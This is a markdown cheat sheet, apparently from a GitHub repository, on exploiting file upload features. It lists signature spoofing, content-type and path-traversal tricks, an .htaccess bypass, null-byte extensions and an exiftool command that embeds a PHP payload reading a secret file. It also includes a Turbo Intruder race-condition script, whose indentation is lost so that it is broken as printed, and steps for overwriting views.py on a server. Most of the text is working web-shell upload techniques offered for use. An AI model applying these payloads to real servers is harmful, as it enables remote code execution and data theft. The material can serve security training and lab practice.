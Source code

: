 # File upload exploitation

## Summary
* [Change the file signature accordingly](#change-the-file-signature-accordingly)
* [Image extension file name validation](#image-extension-file-name-validation)
* [Directory traversal file upload](#directory-traversal-file-upload)
* [Extension blacklist bypass](#extension-blacklist-bypass)
* [Obfuscated file extension](#obfuscated-file-extension)
* [Polyglot web shell upload](#polyglot-web-shell-upload)
* [Web shell upload via race condition](#web-shell-upload-via-race-condition)
* [Replacing file with customized file with file upload](#replacing-file-with-customized-file-with-file-upload)

### Change the file signature accordingly
```
# jpeg file hex format - FF D8 FF E0 00 10 4A 46 49 46 00 01
# png file hex format - 89 50 4E 47 0D 0A 1A 0A
# pdf file hex format - 25 50 44 46 2D
```
### Image extension file name validation
```
# intercept post request with burp suite
# change content type to image/jpeg or image/png
```
### Directory traversal file upload
```
# intercept post request when uploading the file with burp suite
# change the filename to ..%2fwebshell.php
```
### Extension blacklist bypass
```
# intercept post request when uploading the file with burp suite
# change the filename to .htaccess
# change the content-type to text/plain
# change the content of the file to "AddType application/x-httpd-php .l33t"
# upload file with the extension of .l33t
```
### Obfuscated file extension
```
# providing multiple extension > exploit.php.jpg
# add trailing characters > exploit.php. || add whitespaces
# url encoding > exploit%2Ephp = exploit.php
# add semicolons or url-encoded null byte characters before file extension > exploit.asp;.jpg || exploit.php%00.jpg
# using multibyte unicode characters
# what happens if a server strip .php from exploit.p.phphp = exploit.php
```
### Polyglot web shell upload
```
# use exiftool to create a polyglot php/jpg file
# run "exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php"
# upload polyglot.php
```
### Web shell upload via race condition
Upload a file and intercept the request. Then, make a request for the file uploaded. Send the post request to tubo intruder.
```
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=100,)

request1 = '''
<POST REQUEST HERE>
'''

request2 = '''
<GET REQUEST HERE>
'''

# the 'gate' argument blocks the final byte of each request until openGate is invoked
engine.queue(request1, gate='race1')
for x in range(5):
engine.queue(request2, gate='race1')

# wait until every 'race1' tagged request is ready
# then send the final byte of each request
# (this method is non-blocking, just like queue)
engine.openGate('race1')

engine.complete(timeout=60)


def handleResponse(req, interesting):
table.add(req)
```
Paste the post request and get request before in the python code & run the attack

### Replacing file with customized file with file upload
```
> example.com has a file upload functionality where we can upload any file but we cant trigger any kind of that files
> assume we know the application has enabled debugger which means that the application will update its sources to any changes
> the application's config file is views.py in /app/app directory on the server
> customized the views.py and upload it, then intercept the request
> in the intercepted request, change the file name to /app/app/views.py (absolute path so that the application will not ignore it) because we want to replace the original views.py in /app/app directory on the server instead of uploading the file to /uploads directory on the server
```



